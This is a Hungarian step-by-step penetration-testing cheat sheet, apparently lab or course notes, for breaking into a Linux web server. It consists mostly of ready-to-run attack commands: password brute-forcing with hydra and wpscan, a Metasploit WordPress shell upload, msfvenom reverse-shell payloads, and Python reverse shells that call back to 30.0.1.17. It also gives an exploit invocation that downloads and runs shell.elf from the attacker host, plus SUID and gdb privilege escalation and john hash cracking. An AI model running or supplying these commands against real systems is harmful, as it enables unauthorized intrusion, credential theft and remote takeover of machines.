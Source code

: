 [Krisz githubja](https://github.com/Inckrisz/Etikus-hack/blob/main/etikushack.txt#L139)
1. Megnézzük milyen portok vannak nyitva, a {IP} placeholder helyére a célpont IP címe kell. Itt meg lehet nézni [Exploit-DB](https://www.exploit-db.com/)-n, hogy van-e olyan exploit amit ki tudunk használni, ha van msfconsoleos akkor instant root user lehetünk.
``` sh
sudo nmap -sS -sV {IP}
```
2. Ha találunk egy webszervert, akkor dirbusterrel feltérképezzük a lehetséges mappákat /valami/, ehhez a wordlist. (A megtalált mappa lesz az URI majd)
``` 
/usr/share/wordlists/dirb/common.txt
```
3. Ha megvan a weboldal a megfelelő aloldallal (pl.: login), akkor 2 lehetőség van, amennyiben Wordpresses a weboldal, úgy `wpscan`-nel feltörjük a user jelszavát. Az első parannccsal a usereket lehet megnézni a másodikkal meg a jelszavakat lehet törni. A {IP} és {URI} helyére a törendő gép IP-je és a weblap URI-je kell
```
wpscan --url http://{IP} -e u
```
```
wpscan --url http://{IP}/{URI} --passwords /usr/share/wordlists/rockyou.txt
```
4. Ha a login Basic Authos akkor pedig `hydra`-t kell használni a feltöréshez
```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt
```
5. Ha megvan a Wordpress oldalhoz a user:password páros akkor `msfconsole`-al azonnal fel lehet törni. Msfconsoleban beírjuk az alábbi parancsot majd a `set` paranccsal megadjuk az opciókat, amiket a `options` kiír és "yes" van mellette. Ezután run és fel is törtük.
```
use exploit/unix/webapp/wp_admin_shell_upload
```

6. Ha nem lehetséges, akkor `msfvenom`-mal csinálunk egy reverse shellt és belépés után feltöltjük egy php fájlba a phpmyadmin felületen (lehetőség szerint comments.php), majd megnyitunk egy kommentet, közben pedig csinálunk egy listenert a saját gépünkön.
```
nc -lvnp 4444
```
```
msfvenom -p php/reverse_php LHOST={HOST_IP} LPORT=4444 -f raw > rshell.php
```
7. Ezután felupgradelhetjük a shellünket.
```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

8. Ha bent vagyunk a gépben, akkor el kell kezdeni mászni a ranglétrán. A `sudo -l`-el meg tudjuk nézni mihez van jogunk, de ehhez jelszó kell.
	Find-al keressük meg milyen SUID bitek vannak a rendszerben. Ahol + jel van ott SUID bit van. Ha ez egy futtatható fájlon van akkor a fájl nem az én jogaimmal indul hanem a SUID bites jogokkal
```
find / -perm -u=s 2>/dev/null
```
### Használható fájlok
[GTFobins](https://gtfobins.github.io/)-on meg lehet nézni van e valami
- /usr/sbin/pppd
- /usr/lib/dbus-1.0/dbus-daemon-launch-helper
- /usr/lib/openssh/ssh-keysign
- /usr/lib/xorg/Xorg.wrap
- /usr/libexec/polkit-agent-helper-1
- /usr/bin/sudo
- /usr/bin/su
- /usr/bin/fusermount3
- /usr/bin/pkexec
- /usr/bin/gpasswd
- /usr/bin/chfn
- /usr/bin/mount
- /usr/bin/chsh
- /usr/bin/umount
- /usr/bin/newgrp
- /usr/bin/ntfs-3g
- /usr/bin/passwd

 Ha van gdb
```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

9. Megnézni, hogy a /etc/passwd írható/olvasható-e, vagy ki által lehet írni vagy olvasni `getfacl /etc/passwd` vagy van a benne hashelt jelszó (juliet:x:.. --> x helyén), ha van akkor `john`. Kimentjük egy fájlba pl jelszo. A  --format=crypt akkor kell ha y típusú
```
john jelszo --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt 
```

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```



## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```


## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```
 

 ## Jelszó generálás
 ```
openssl passwd -5 alma
```
## Burpsuite
Firefox addon FoxyProxy
Proxy tab --> Intercept ON
Request küldése majd jobb klikk
Send to Repeater (jelszavak próbálgatása, manualisan)
Send to Intruder 
 Hozzáadjuk az add al, majd payload tab, megadjuk a jelszavakat és start attack, ezután nézzük a hosszakat

 ## Basic Authos
 hydra
